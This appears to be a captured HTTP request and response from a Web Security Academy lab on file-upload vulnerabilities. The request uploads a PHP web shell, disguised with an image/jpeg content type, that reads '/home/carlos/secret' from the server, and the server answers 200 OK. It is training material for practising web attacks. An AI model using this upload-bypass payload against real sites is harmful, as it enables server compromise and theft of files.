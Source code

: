 ```python




REQUEST:




POST /my-account/avatar HTTP/2
Host: 0a4c004903c9c60e832419d800720000.web-security-academy.net
Cookie: session=TDHOCx352ucb2wa4lawaMkiWaSeAboyQ
Content-Length: 225065
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a4c004903c9c60e832419d800720000.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydMSvUDBM3tjWIOov
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4c004903c9c60e832419d800720000.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="avatar"; filename="paimonshell.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="csrf"

hSQKRANZGUSIyf52h7rwucEqWy5PKBWa
------WebKitFormBoundarydMSvUDBM3tjWIOov--



RESPONSE:





HTTP/2 200 OK
Date: Mon, 29 Jan 2024 01:37:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 136

```